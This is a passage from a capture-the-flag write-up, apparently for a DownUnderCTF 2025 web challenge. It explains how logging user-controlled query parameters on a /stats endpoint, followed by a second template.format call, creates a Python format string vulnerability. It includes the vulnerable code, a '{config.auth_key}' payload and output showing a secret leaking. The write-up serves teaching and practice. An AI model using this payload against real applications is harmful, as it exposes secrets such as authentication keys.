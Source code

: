 Hmm... Can we control the error/critical logging messages?

##### Format Stringss

In the server Python script, it doesn't have any `logging.critical` function calls but `logging.error`. One function call sticks out the most:

```python
def handle_request(conn, conn_state, request):
    [...]
    if target.startswith("/stats"):
        try:
            params = {}
            for param in re.search(r".*\?(.*)", target).groups()[0].split("&"):
                logger.error(param)
                [...]
            [...]
        except Exception as e:
            [...]
        [...]
    [...]
```

In here, it'll log out every single parsed query parameter! Which means we can control the logging message. Therefore, endpoint `/stats` is vulnerable to **format string vulnerability**!

To do so, we can first inject the log with our own format string payload. Then, in the final `template.format` function call, it'll format our payload:

```python
class Config:
    def __init__(self):
        self.auth_key = 'foo'

    def __repr__(self):
        return 'message'

config = Config()
payload = '{config.auth_key}'

template = """
<h1>Admin Stats Page</h1>
    {logs}
""".format(logs=payload)
print(f'First format string operation: {template}')

print(f'Second format string operation: {template.format(config=config)}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2025/web/sodium/src)-[2025.07.22|19:14:21(HKT)]
└> python3 format_str.py
First format string operation: 
<h1>Admin Stats Page</h1>
    {config.auth_key}

Second format string operation: 
<h1>Admin Stats Page</h1>
    foo

```

